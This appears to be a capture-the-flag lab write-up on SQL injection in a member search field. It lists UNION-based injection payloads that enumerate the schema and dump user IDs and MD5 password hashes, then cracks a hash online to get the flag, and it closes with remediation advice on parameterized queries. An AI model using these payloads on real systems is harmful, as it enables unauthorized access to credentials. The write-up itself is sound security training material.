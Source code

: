 # Finding 07 - SQL injection on member searching input field

## Exploitability
Very easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level/type
OWASP top 10
- A02:2021 – Cryptographic Failures		using md5 encryption
- A03:2021 – Injection 					vulnerability to SQL injection

## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from a SQL database. The last one being :

```
ID: 1 or 1 =1  
First name: Flag
Surname : GetThe
```
Ok, so that's already quite interesting!


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
``` and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users```
which yields the same result as the basic SQL injection try.


From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users```
which yields :
```
ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
Title: 5ff9d0165b4f92b14994e5c685cdce28
Url : 5
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users```
which yields :
```
ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
Title: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Url : 42
```

The countersign is probably hashed with md5, as this is the previously encountered hashing algorithm.
Let's verify it with the following website:
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
FortyTwo
As lowercase, it becomes:
fortytwo
To encrypt it with sha256, we can use the command:
```echo -n "fortytwo" | sha256sum```
The flag is:
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.

## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068